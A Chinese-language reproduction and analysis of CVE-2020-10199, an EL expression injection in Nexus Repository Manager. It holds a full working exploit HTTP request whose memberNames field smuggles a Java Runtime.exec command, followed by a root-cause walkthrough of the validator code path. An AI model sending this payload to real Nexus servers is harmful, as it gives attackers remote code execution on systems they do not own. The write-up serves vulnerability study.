






前言
Nexus是一套“开箱即用”的系统不需要数据库，它使用文件系统加Lucene来组织数据。
Nexus使用ExtJS来开发界面，利用Restlet来提供完整的REST APIs，通过m2eclipse与Eclipse集成使用。
Nexus支持WebDAV与LDAP安全身份认证。
Nexus还提供了强大的仓库管理功能，构件搜索功能，它基于REST，友好的UI是一个extjs的REST客户端，它占用较少的内存，基于简单文件系统而非数据库
复现
环境搭建：https://github.com/threedr3am/learnjavabug/tree/93d57c428333f98b5927d02630737e639dcb226b/nexus
- 创建普通账户

exp
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 297
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.7886248393834028
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=cdde5c4a-06bf-4dbd-b065-70c5fc72dbde
Connection: close
{
"name": "internal",
"online": true,
"storage": {
"blobStoreName": "default",
"strictContentTypeValidation": true
},
"group": {
"memberNames": ["${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10199')}"]
}
}

漏洞原理
未做过滤造成表达式注入
漏洞分析
通过Restful暴露的接口之间可以调用url:/service/rest/beta/repositories/go/group

注解拦截相应请求方式进入到POST处理逻辑中.也需要做身份验证，所以该漏洞需要一定用户权限

跟进validateGroupMemebers方法，获取group集合下的MemeberNames参数值，并获取其value值为respositoryName

接着开始构造约束规则上下文,继续跟进到isValid方法.在调用方法buildConstraintViolationWithTemplate对定义的错误模版进行修改。没有对恶意参数进行过滤.

最后调用org.hibernate.validator.internal.engine.messageinterpolation#interpolate,执行插入操作并解析恶意字符串，造成表达式注入.

总结
- EL表达式执行最终由getValue触发
- 分析时候需要晓得每个模块的大致功能
参考链接
https://github.com/threedr3am/learnjavabug/tree/93d57c428333f98b5927d02630737e639dcb226b/nexus